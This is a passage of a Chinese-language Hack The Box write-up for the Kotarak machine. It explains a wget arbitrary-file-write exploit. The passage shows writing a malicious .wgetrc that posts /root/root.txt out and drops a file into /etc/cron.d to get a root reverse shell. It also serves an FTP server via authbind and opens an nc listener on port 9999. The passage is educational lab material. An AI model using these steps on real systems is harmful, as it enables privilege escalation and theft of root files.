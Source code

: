 用户最后下载的文件将是`.bash_profile`，而`safe_file.txt`将会被忽略。

上面的利用只能下载到当前文件夹下，其实我们可以通过覆盖`wget`的配置文件来控制写入路径。

`wget`配置文件可以控制`wget`写入目录、post文件、http代理等，详细配置信息见[官网](https://www.gnu.org/software/wget/manual/wget.html#Wgetrc-Commands "官网")。`wget`配置文件默认会先从`/usr/local/etc/wgetrc`路径或环境变量`WGETRC`设置的路径读取，若都没有，则会从`$HOME/.wgetrc`读取配置。当`wget`是被定时任务执行时，文件的下载目录默认是执行用户的home目录，我们就可以在home目录下写入`.wgetrc`文件来配置`wget`的写入路径，可以通过写入定时任务、`~/.bashrc`(有的发行版为`~/.bash_profile`)来反弹shell，或在web目录写入`webshell`等操作。

所以我们接下来将靶机`10.10.10.55`（内网ip为`10.0.3.1`）作为攻击机，而`10.0.3.133`作为用户机，利用wget漏洞来获取`10.0.3.133`的权限。

由于需要运行exp的同时使用nc监听反弹的shell，就需要用到两个终端，可以反弹2个不同端口sehll或使用`tmux`分屏（单一会话，推荐使用），下面是tmux设置

```bash
# TERM的值可在kali终端运行echo $TERM获取
export TERM=xterm-256color 

# 设置终端大小，可在kali终端运行stty -a查看
stty rows 48
stty columns 236

# 运行tmux，ctrl+b激活终端，tmux使用说明可参考https://www.ruanyifeng.com/blog/2019/10/tmux.html
tmux

```

分屏效果如下

![](HTB之Kotarak/image_WadiibIlCy.png)

通过首先在`10.0.3.1`上启动一个ftp服务器，将恶意的`.wgetrc`配置文件方在ftp服务器下，由于是非root用户启动小于`1024`的端口号，所以需要用到`authbind`命令。然后监听接收shell的9999端口

```bash
atanas@kotarak-dmz:/tmp$ cat <<_EOF_>.wgetrc
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell
_EOF_
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w                                                         
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to ano
nymous user.                                                                                                          
  RuntimeWarning)                                                           
[I 2022-06-18 05:52:51] >>> starting FTP server on 0.0.0.0:21, pid=29992 <<<
[I 2022-06-18 05:52:51] concurrency model: async
[I 2022-06-18 05:52:51] masquerade (NAT) address: None
[I 2022-06-18 05:52:51] passive ports: None

```

```bash
atanas@kotarak-dmz:/tmp$ nc -lvp 9999
Listening on [0.0.0.0] (family 0, port 9999)   
                                               

```
